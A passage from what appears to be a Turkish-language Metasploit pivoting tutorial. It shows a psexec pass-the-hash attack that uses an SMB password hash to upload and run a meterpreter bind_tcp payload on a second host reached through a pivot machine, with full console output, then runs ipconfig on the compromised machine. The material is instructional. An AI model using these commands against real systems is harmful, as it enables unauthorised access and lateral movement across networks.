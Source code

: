 ```bash
SMBPass **=>** 81cbcea8a9af93bbaad3b435b51404ee:561cbdae13ed5abd30aa94ddeb3cf52d

msf exploit**(**psexec**)** > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD **=>** windows/meterpreter/bind_tcp

msf exploit**(**psexec**)** > exploit

> Connecting to the server...
> Started bind handler
> Authenticating to 10.1.13.2:445|WORKGROUP as user 'Administrator'...
> Uploading payload...
> Created \qNuIKByV.exe...
> Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:10.1.13.2[\svcctl] ...
> Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:10.1.13.2[\svcctl] ...
> Obtaining a service manager handle...
> Creating a new service **(**UOtrbJMd - "MNYR"**)**...
> Closing service handle...
> Opening service...
> Starting the service...
> Removing the service...
> Closing service handle...
> Deleting \qNuIKByV.exe...
> Sending stage **(**749056 bytes**)**
> Meterpreter session 2 opened **(**192.168.1.101-192.168.1.201:0 -> 10.1.13.2:4444**)** at Mon Dec 06 08:56:42 -0700 2010

meterpreter >
```



Gördüğünüz gibi 2. bilgisayara bağlantı sağladık. Bu bağlantıyı yukarıda `[*] Meterpreter session 2 opened (192.168.1.101-192.168.1.201:0 -> 10.1.13.2:4444)` satırından da görebileceğiniz gibi `192.168.1.101-192.168.1.201:0 -> 10.1.13.2:4444` rotasını takip ederek yaptık.



192.168.1.101: Kendi bilgisayarımız



192.168.1.201: Pivot olarak kullanılan bilgisayar



10.1.13.2: Erişim sağlanan 2. bilgisayar.



İkinci bilgisayarın `ipconfig` ayarlarına bakalım.


```bash
meterpreter > ipconfig

Citrix XenServer PV Ethernet Adapter
Hardware MAC: 22:73:ff:12:11:4b
IP Address  : 10.1.13.2
Netmask     : 255.255.255.0



MS TCP Loopback interface
Hardware MAC: 00:00:00:00:00:00
IP Address  : 127.0.0.1
Netmask     : 255.0.0.0


meterpreter >
```
